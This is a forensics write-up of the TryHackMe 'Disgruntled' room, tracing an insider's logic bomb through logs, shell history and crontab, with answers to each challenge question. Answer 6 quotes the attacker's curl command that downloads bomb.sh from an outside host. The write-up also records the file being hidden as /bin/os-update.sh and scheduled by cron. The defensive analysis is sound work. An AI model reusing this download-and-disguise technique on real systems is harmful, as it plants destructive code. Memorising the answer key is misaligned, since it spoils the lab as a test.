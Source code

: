# Disgruntled [here](https://tryhackme.com/room/disgruntled)

## Scenario
An IT department employee at CyberT, a client company, was arrested for running a phishing operation. CyberT has tasked us with investigating the employee's last-used machine to determine if any malicious actions were performed on their assets. The investigation focuses on privileged commands, user account activity, file operations, and persistence mechanisms to uncover a potential "logic bomb" designed to harm the company's systems.

## Investigation Approach
1. **Initial Access and User Identification**:
   - Logged in as the `root` user on the target machine.
   - Checked `/etc/passwd` to identify user accounts, expecting the disgruntled IT employee to use a non-root account (`cybert` or `itadmin`) to avoid suspicion. Found three users: `ubuntu`, `cybert`, and `itadmin`. Focused on `cybert` as the likely primary account and `itadmin` for suspicious activity.
   - **Screenshot**: [User Accounts](screenshots/1.png)

2. **Privileged Commands**:
   - Examined `/var/log/auth.log*` for `sudo` commands executed by `cybert` to confirm the installation of the authorized service (`dokuwiki`). Also checked `cybert`’s `~/.bash_history` for related commands to identify the command and working directory.

3. **User and Privilege Escalation**:
   - Grep’d `useradd` or `adduser` in `cybert`’s `~/.bash_history` to find new user accounts created post-installation.
   - Searched `auth.log*` for `visudo` to detect `sudoers` file updates, focusing on timestamps after the `dokuwiki` installation to confirm privilege escalation.
   - Investigated `itadmin`’s `~/.bash_history` for `vi` commands to identify script creation or editing.

4. **File Analysis**:
   - Grep’d `sh` in `itadmin`’s `~/.bash_history` to find the creation command for `bomb.sh`, which no longer exists.
   - Checked `itadmin`’s `~/.viminfo` to trace file renaming or movement, identifying the new location of `bomb.sh`.
   - Used `ls -la --full-time` to retrieve the modification time of the renamed file.
   - Analyzed the script’s contents to identify files created upon execution.

5. **Persistence Mechanisms**:
   - Inspected `/etc/crontab` to find scheduled tasks, confirming the execution time of the malicious script.

## Challenge Questions and Findings

### 1. Privileged Command for Package Installation
**Question**: The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

**Answer**: `/usr/bin/apt install dokuwiki`

**Screenshot**: [Privileged Command](screenshots/2.png)

### 2. Present Working Directory (PWD) for Command
**Question**: What was the present working directory (PWD) when the previous command was run?

**Answer**: `/home/cybert`

**Screenshot**: [PWD](screenshots/2.png)

### 3. User Created After Package Installation
**Question**: Which user was created after the package from the previous task was installed?

**Answer**: `it-admin`

**Screenshot**: [User Creation](screenshots/3.png)

### 4. Sudoers File Update Time
**Question**: A user was then later given sudo privileges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

**Answer**: `Dec 28 06:27:34`

**Screenshot**: [Sudoers Update](screenshots/4.png)

### 5. Script File Opened in vi
**Question**: A script file was opened using the "vi" text editor. What is the name of this file?

**Answer**: `bomb.sh`

**Screenshot**: [Script File](screenshots/5.png)

### 6. Command That Created bomb.sh
**Question**: What is the command used that created the file `bomb.sh`?

**Answer**: `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`

**Screenshot**: [Create Command](screenshots/6.png)

### 7. Current Full Path of Renamed File
**Question**: The file was renamed and moved to a different directory. What is the full path of this file now?

**Answer**: `/bin/os-update.sh`

**Screenshot**: [Renamed File](screenshots/7.png)

### 8. Last Modified Time of Renamed File
**Question**: When was the file from the previous question last modified? (Format: Month Day HH:MM)

**Answer**: `Dec 28 06:29`

**Screenshot**: [Modification Time](screenshots/8.png)

### 9. File Created by Script Execution
**Question**: What is the name of the file that will get created when the file from the first question executes?

**Answer**: `goodbye.txt`

**Screenshot**: [Created File](screenshots/9.png)

### 10. Trigger Time of Malicious File
**Question**: At what time will the malicious file trigger? (Format: HH:MM AM/PM)

**Answer**: `08:00 AM`

**Screenshot**: [Cron Schedule](screenshots/10.png)


